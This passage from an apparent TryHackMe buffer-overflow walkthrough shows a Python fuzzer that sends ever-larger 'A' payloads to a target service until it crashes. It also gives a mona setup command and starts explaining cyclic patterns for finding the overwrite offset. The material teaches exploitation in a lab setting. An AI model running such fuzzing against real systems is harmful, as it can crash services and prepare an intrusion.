 > `!mona config -set workingfolder c:\mona\%p`

## Fuzzing

The next part is called _fuzzing_, it's a software testing technique that involves injecting random or malformed input data to detect bugs, crashes, or security vulnerabilities. In our case, we're going to send packets of `100 bytes`, and see at which range the app crashes. On your attacker machine, you can create a script `fuzzer.py` and paste the following code:

```python
#!/usr/bin/env python3  
  
import socket, time, sys  
  
ip = "YOUR MACHINE IP"  
port = PORT  
timeout = 5  
prefix = "OVERFLOW1 " # In my case,its OVERFLOW1 (because its a tryhackme room)  
string = prefix + "A" * 100  
  
while True:  
  try:  
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:  
      s.settimeout(timeout)  
      s.connect((ip, port))  
      s.recv(1024)  
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))  
      s.send(bytes(string, "latin-1"))  
      s.recv(1024)  
  except:  
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))  
    sys.exit(0)  
  string += 100 * "A"  
  time.sleep(1)
```
(Or you can download the file directly from here:

[https://artyeth06.github.io/useful-files/fuzzer.py](https://artyeth06.github.io/useful-files/fuzzer.py)) Make sure to replace with your own information.

You can now start the script!

[Pasted image 20230731122028](https://github.com/ArtyETH06/artyeth06.github.io/assets/107058122/581900c6-c7eb-4562-a9fb-50d8c940c1f3)
! Take a note of the range where the app crashes! 

In my example, the app crashed at **2000 bytes**.

## Cyclic Pattern

Now that we have the range, we need to generate a _cyclic pattern_. Here's a definition from Google:

> A cyclic pattern, also known as a De Bruijn sequence, is a sequence of characters that is generated in such a way that every possible combination of a certain length of characters appears exactly once. It's frequently used in software testing and debugging, specifically in buffer overflow exploitation.
